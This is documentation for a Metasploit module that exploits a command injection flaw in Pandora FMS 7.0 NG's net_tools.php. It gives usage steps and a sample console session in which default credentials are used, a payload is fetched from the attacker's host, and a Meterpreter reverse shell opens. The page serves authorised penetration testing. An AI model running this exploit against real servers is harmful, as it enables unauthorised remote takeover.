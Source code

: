 ## Vulnerable Application

Pandora FMS (for Pandora Flexible Monitoring System) is software for
monitoring computer networks. Pandora FMS allows monitoring in a visual
way the status and performance of several parameters from different
operating systems, servers, applications and hardware systems such
as firewalls, proxies, databases, web servers or routers.

This module exploits a vulnerability found in Pandora FMS 7.0 NG and lower.
The vulnerability exists on the `net_tools.php` component, due to the insecure
usage of the `system()` PHP function.

This module has been tested with [Pandora FMS 7.0 NG](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/Final/Pandora_FMS_7.0_NG_VmWare_ovf.zip/download)

## Verification Steps

Launch metasploit and set the appropriate options:

1.  Start `msfconsole`
2. `use exploit/linux/http/pandora_ping_cmd_exec`
3. `set RHOSTS <rhosts>`
4. `set LHOST <lhost>`
5. `set USERNAME <username>`
6. `set PASSWORD <password>`
7. `exploit`

## Options

### USERNAME

  The username for Pandora FMS.

### PASSWORD

  The password for Pandora FMS.


## Setup

https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing

## Scenarios

 Tested Pandora FMS 7.0 NG on CentOS 7.3.1611

```
msf > use exploit/linux/http/pandora_ping_cmd_exec
msf exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.215.128
RHOSTS => 192.168.215.128
msf exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.1.12
RHOSTS => 192.168.1.12
msf exploit(linux/http/pandora_ping_cmd_exec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(linux/http/pandora_ping_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/pandora_ping_cmd_exec) > set PASSWORD pandora
PASSWORD => pandora
msf exploit(linux/http/pandora_ping_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444
[*] Exploiting...
[*] Using URL: http://0.0.0.0:8080/ksdtisFA
[*] Local IP: http://192.168.1.5:8080/ksdtisFA
[*] Attempting to authenticate using (admin:pandora)
[+] Successfully authenticated
[*] Attempting to retrieve session cookie
[+] Successfully retrieved session cookie: PHPSESSID=knoo75fs75l00ec74atu8ic3d0; clippy=deleted; clippy=deleted;
[*] Client 192.168.1.12 (Wget/1.14 (linux-gnu)) requested /ksdtisFA
[*] Sending payload to 192.168.1.12 (Wget/1.14 (linux-gnu))
[*] Sending stage (989416 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.12:54784) at 2020-03-09 15:38:25 +0300

[*] Command Stager progress - 131.25% done (147/112 bytes)
[*] Server stopped.

meterpreter >
```

